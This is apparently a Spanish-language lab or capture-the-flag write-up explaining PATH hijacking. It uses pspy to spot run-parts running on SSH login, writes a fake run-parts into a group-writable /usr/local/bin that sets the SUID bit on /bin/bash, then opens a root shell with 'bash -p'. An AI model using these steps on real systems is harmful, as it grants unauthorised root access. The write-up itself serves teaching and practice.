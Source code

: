 **Path hijacking** es una técnica en la que un atacante aprovecha la forma en que el sistema busca ejecutables en las carpetas definidas por la variable de entorno `PATH`. Al colocar un binario malicioso con el mismo nombre que uno legítimo en un directorio que aparece **antes** de la ruta original, el sistema ejecutará primero la versión del atacante.



# Enumeracion
Con [[PSPY]] vemos ejecución automática de `run-parts` cuando hacemos una conexion por ssh

![[Writeup9.png]]

Verificamos ubicación:

```bash
which run-parts
```

Confirmamos que `/usr/local/bin` está antes en `PATH`.

![[Writeup10.png]]

Vemos que estamos en el grupo `staff` que nos permite modificar el directorio  `/usr/local`.

![[Writeup 11.png]]



# Explotacion

Creamos el archivo:

```bash
nano /usr/local/bin/run-parts
```

Contenido:

```bash
#!/bin/bash
chmod u+s /bin/bash
```

Permisos:

```bash
chmod +x /usr/local/bin/run-parts
```

Conectamos por SSH y ejecutamos:

```bash
bash -p
```

